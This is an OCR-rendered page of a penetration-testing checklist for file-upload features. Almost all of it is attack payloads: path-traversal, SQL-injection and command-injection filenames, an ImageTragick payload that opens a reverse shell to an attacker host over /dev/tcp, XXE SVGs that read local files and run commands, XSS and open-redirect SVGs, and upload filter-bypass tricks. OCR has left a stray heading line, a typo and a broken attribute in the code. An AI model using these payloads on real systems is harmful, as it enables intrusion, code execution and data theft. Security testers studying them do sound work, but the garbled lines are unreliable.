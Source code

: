 ```bash
../../etc/passwd/logo.png
../../../logo.png

# SQLi
'sleep(10).jpg
sleep(10)-- -.jpg

# Command injection
; sleep 10;

# ImageTragick | <http://4lemon.ru/2017-01-17_facebook_imagetragick_remote_code_execution.html>
push graphic-context
viewbox 0 0 640 480
fill 'url(<https://127.0.0.1/test.jpg>"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context

# XXE .svg
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="500px" height="500px" xmlns="<http://www.w3.org/2000/svg>" xmlns:xlink="<http://www.w3.org/1999/xlink>" version="1.1
<text font-size="40" x="0" y="16">&xxe;</text>
</svg>

<svg xmlns="<http://www.w3.org/2000/svg>" xmlns:xlink="<http://www.w3.org/1999/xlink>" width="300" version="1.1" height="200">
<image xlink:href="expect://ls"></image>
</svg>

# XSS svg
<svg onload=alert(document.comain)>.svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "<http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd>">
File Upload Checklist 3
<svg version="1.1" baseProfile="full" xmlns="<http://www.w3.org/2000/svg>">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
<script type="text/javascript">
alert("HolyBugx XSS");
</script>
</svg>

# Open redirect svg
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='<https://attacker.com>'"
xmlns="<http://www.w3.org/2000/svg>">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
</svg>
</code>
    
# Filter Bypassing Techniques
# upload asp file using .cer & .asa extension (IIS — Windows)
# Upload .eml file when content-type = text/HTML
# Inject null byte shell.php%001.jpg
# Check for .svg file upload you can achieve stored XSS using XML payload
# put file name ../../logo.png or ../../etc/passwd/logo.png to get directory traversal via upload file
# Upload large size file for DoS attack test using the image.
# (magic number) upload shell.php change content-type to image/gif and start content with GIF89a; will do the job!
```